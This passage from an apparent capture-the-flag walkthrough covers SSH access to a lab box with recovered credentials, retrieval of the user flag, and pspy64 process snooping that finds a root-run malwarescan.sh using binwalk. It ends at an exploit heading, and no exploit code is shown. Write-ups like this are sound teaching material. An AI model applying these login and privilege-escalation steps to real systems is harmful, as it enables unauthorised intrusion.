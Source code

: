 ### SSH access as emily
Now we can use the credentials we found to access SSH with the user emily:
```shell
ssh emily@10.129.143.44
# emily@10.129.143.44's password: abigchonkyboi123
```
### User Flag
We can get the user.txt at the following folder:
```shell
cat /home/emily/user.txt
```
# Privilege Escalation
### Using pspy64 to discover malwarescan.sh script
Getting pspy64:
https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64

Move pspy64 to the target machine and use the following command to let it run for 5 minutes:
```shell
chmod +x pspy64
# Use timeout to run pspy64 for 5 minutes
timeout 5m ./pspy64
```
Examining the results of pspy64, we could find a script called malwarescan.sh being ran by root:
```shell
2024/11/08 06:33:13 CMD: UID=0     PID=719    | /bin/bash /usr/sbin/malwarescan.sh
```
If we examine the contents of malwarescan.sh, we can see that it uses binwalk:
```shell
cat /usr/sbin/malwarescan.sh

#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done
```

We can now suppose, that binwalk may be the way to get root.

### Binwalk 2.3.2 exploit
